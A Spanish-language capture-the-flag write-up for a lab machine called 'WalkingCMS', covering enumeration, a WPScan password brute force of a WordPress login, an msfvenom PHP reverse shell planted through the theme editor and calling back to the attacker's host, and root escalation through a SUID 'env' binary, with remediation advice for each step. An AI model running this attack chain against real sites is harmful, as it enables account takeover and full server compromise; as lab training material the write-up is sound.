







# 🛡️ Writeup — Máquina "WalkingCMS"

**IP objetivo:** `172.17.0.2`
**Servicios expuestos:** `80 (HTTP — Apache 2.4.57 Debian, WordPress)`

---

## 📌 Resumen Ejecutivo

> [!summary]
> Compromiso total del servidor mediante mala gestión de credenciales en WordPress (fuerza bruta con WPScan) y una configuración insegura del bit SUID en el binario `env`, permitiendo escalar privilegios de `www-data` a `root`.

---

## 🔍 1. Reconocimiento

```bash
nmap -p- --open -sS -sC -sV -T4 -n -vvv -O -Pn 172.17.0.2
```
- Puerto **80/tcp** abierto, Apache **2.4.57 (Debian)**, sistema Linux (posible Docker por TTL 64).

### Enumeración de directorios (Gobuster)

**Fase 1 — raíz:**
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20 -x html,php,txt,py,sh,log,zip,old,bak
```
Resultado: `/wordpress` (301)

**Fase 2 — `/wordpress`:**
```bash
gobuster dir -u http://172.17.0.2/wordpress -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20 -x html,php,txt,py,sh,log,zip,old,bak
```
Resultado: `/wp-admin`, `/wp-login.php`, `/xmlrpc.php`, `/license.txt`, `/readme.html`, `/wp-content`, `/wp-includes`

---

## 🚩 Hallazgos

### 🟠 H1: Credenciales WordPress débiles (fuerza bruta con WPScan)

**Severidad:** Alta

**Resumen:** Sin límite de intentos ni CAPTCHA en el login de WordPress, la cuenta `mario` usa una contraseña presente en diccionarios comunes.

**PoC**
```bash
wpscan --url http://172.17.0.2/wordpress --usernames mario --passwords /usr/share/wordlists/rockyou.txt --force
```
Credenciales obtenidas: `mario` / `love`

**Impacto:** Acceso al panel de administración de WordPress.

**Recomendación:** Instalar plugin de rate limiting, forzar contraseñas robustas, habilitar MFA.

---

### 🔴 H2: RCE vía editor de temas de WordPress (subida de payload PHP)

**Severidad:** Crítica

**Resumen:** Con acceso de administrador al panel, el editor de temas integrado de WordPress permite editar archivos PHP directamente ejecutados por el servidor, permitiendo insertar una reverse shell.

**Detalle / PoC**
```bash
msfvenom -p php/reverse_php LHOST=172.17.0.1 LPORT=4444 -f raw > pwned.php
nc -lvnp 4444
```
- Acceso al panel de WordPress con las credenciales de H1.
- Edición del archivo `404.php` desde el editor de temas.
- Inserción del payload generado.

Resultado — shell obtenida como:
```
www-data
```

**Impacto:** Ejecución remota de comandos en el servidor, con el usuario del pool PHP-FPM (`www-data`).

**Recomendación:** Deshabilitar la edición de archivos de plugins/temas desde el panel (`DISALLOW_FILE_EDIT` en `wp-config.php`); deshabilitar XML-RPC; restringir acceso a `/wp-admin`.

---

### 🔴 H3: Escalada de privilegios vía SUID en `/usr/bin/env`

**Severidad:** Crítica

**Resumen:** El binario `env` tiene el bit SUID activo, permitiendo ejecutar cualquier programa (incluida una shell) con los privilegios de su propietario (root) — técnica documentada en GTFOBins.

**Detalle / Causa raíz**
```bash
find / -perm -u=s -type f 2>/dev/null
```
Binario vulnerable encontrado: `/usr/bin/env`

**PoC**
```bash
/usr/bin/env /bin/bash -p
whoami
# root
```

**Impacto:** Compromiso total del sistema operativo.

**Recomendación:** `chmod u-s /usr/bin/env` — nunca dejar SUID en binarios que puedan invocar una shell.

---

## 📸 Evidencias

- Nmap → Puerto 80 abierto: 
- Gobuster → `/wordpress` y endpoints:  
- WPScan → credenciales válidas:  
- Reverse shell → `www-data`: 
- PrivEsc → `root`: 

---

## 🔗 Cadena de ataque

```text
Enumeración → WordPress → Fuerza bruta (H1) → RCE vía editor de temas (H2) → SUID en env (H3) → root
```

---

## 🛡️ Recomendaciones generales

- **Sistema:** `chmod u-s /usr/bin/env`.
- **WordPress:** `DISALLOW_FILE_EDIT`, deshabilitar XML-RPC, restringir `/wp-admin`.
- **Credenciales:** contraseñas robustas, evitar diccionarios comunes, implementar MFA.

---

## 🧾 Conclusión

> [!summary]
> Enumeración → fuerza bruta con credenciales débiles → RCE vía editor de temas → escalada por SUID mal configurado en `env`. Compromiso total del sistema.
